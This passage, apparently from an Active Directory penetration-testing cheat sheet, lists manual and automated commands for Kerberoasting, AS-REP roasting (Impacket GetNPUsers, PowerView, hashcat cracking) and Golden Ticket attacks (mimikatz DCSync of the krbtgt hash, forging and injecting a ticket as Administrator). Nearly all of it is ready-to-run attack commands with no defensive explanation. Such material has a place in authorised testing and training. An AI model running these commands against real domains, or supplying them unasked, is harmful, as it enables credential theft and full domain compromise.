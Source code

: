 **Automated:**
```bash
# Using Kerberoasting automation
./kerberoast.py -t 192.168.1.100

# Using the AD Pentest Toolkit
./adpentest-toolkit.py kerberoast -t 192.168.1.100
```

### AS-REP Roasting

**Manual:**
```bash
# Using Impacket
GetNPUsers.py contoso.local/ -dc-ip 192.168.1.100 -usersfile users.txt -format hashcat -outputfile asrep.txt

# Using PowerShell
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired | Format-List

# Cracking with Hashcat
hashcat -m 18200 asrep.txt wordlist.txt --force
```

**Automated:**
```bash
# Using Impacket automation
./impacket-toolkit.py asreproast -t 192.168.1.100
```

### Golden Ticket

**Manual:**
```bash
# Extract the krbtgt hash first (requires Domain Admin)
mimikatz.exe
lsadump::dcsync /domain:contoso.local /user:krbtgt
exit

# Create and use the Golden Ticket
mimikatz.exe
privilege::debug
kerberos::golden /domain:contoso.local /sid:S-1-5-21-... /krbtgt:hash /user:Administrator /ptt
exit

# Verify ticket is injected
klist
```

**Automated:**
```bash
# Create Golden Ticket
./mimikatz-wrapper.py local golden -d contoso.local -s S-1-5-21-1234567890-1234567890-1234567890 -k aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```
